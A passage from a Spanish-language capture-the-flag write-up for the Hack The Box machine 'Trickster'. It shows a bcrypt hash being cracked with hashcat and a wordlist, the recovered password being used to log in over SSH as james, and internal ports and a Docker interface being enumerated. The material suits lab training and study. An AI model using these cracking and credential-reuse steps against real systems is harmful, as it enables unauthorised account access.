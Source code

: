 ```bash
❯ hashid '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm'
Analyzing '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm:alwaysandforever
```

### Accessing SSH with password cracked

Trataremos de acceder mediante SSH con las credenciales obtenidas del usuario`james`. Verificamos que logramos obtener el acceso y visualizar la flag de **user.txt**.

```bash
❯ ssh james@trickster.htb
james@trickster.htb's password: 
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ ls
user.txt
james@trickster:~$ cat user.txt 
c4dfa6a95***********************
```

## Lateral Movement

Revisaremos si disponemos de algún puerto interno inusual. En este caso, vemos un puerto 41187, que analizamos y no logramos obtener ningún tipo de información interesante.

```bash
james@trickster:/opt/PrusaSlicer$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:41187         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
```

Revisando las tarjetas de red del equipo, nos fijamos que tiene una tarjeta de red para `Docker`.

{% hint style="info" %}
Docker es un software de código abierto utilizado para desplegar aplicaciones dentro de contenedores virtuales. La contenerización permite que varias aplicaciones funcionen en diferentes entornos complejos. Por ejemplo, Docker permite ejecutar el sistema de gestión de contenidos WordPress en sistemas Windows, Linux y macOS sin ningún problema.
{% endhint %}

```bash
james@trickster:/tmp$ ifconfig
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:76:49:9c:dc  txqueuelen 0  (Ethernet)
        RX packets 23  bytes 1372 (1.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3  bytes 126 (126.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.34  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:94:e5:6c  txqueuelen 1000  (Ethernet)
```